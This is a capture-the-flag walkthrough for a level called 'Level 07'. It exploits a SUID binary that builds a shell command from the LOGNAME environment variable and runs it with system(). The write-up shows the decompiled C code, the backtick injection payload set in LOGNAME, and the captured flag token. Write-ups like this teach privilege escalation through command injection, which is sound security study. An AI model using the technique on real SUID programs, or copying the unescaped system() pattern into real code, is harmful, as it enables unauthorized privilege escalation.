 # Level 07 - Environment Variable Command Injection

This level centers around exploiting how a SUID binary (`level07`) uses user-controlled environment variables in a vulnerable way.

---

## Step 1: Review Files

```bash
ls -la
```

Output:

```
-rwsr-sr-x 1 flag07  level07 8805 Mar  5  2016 level07
```

The binary is owned by `flag07` and has the SUID bit, which means it will run with `flag07`'s privileges.

---

## Step 2: Decompile the Binary

Decompiled logic (from Dogbolt or similar):

```c
int main(int argc, char** argv, char** envp) {
    gid_t gid = getegid();
    uid_t uid = geteuid();
    setresgid(gid, gid, gid);
    setresuid(uid, uid, uid);

    char* cmd;
    asprintf(&cmd, "/bin/echo %s", getenv("LOGNAME"));
    return system(cmd);
}
```

The program builds a shell command using the `LOGNAME` environment variable and executes it using `system()` — a command injection vulnerability.

---

## Step 3: Exploit via Environment Variable

We inject a command using backticks:

```bash
export LOGNAME='`getflag`'
```

Then run the binary:

```bash
./level07
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```

---

## Step 4: Result

The SUID binary executes `getflag` under `flag07`'s privileges.

### Flag Token:

```text
fiumuikeil55xe9cu4dood66h
```

---

## ✅ Summary

- `asprintf()` builds a shell command using unescaped environment input.
- `system()` executes it, leading to command injection.
- Successfully hijacked execution via `LOGNAME`.

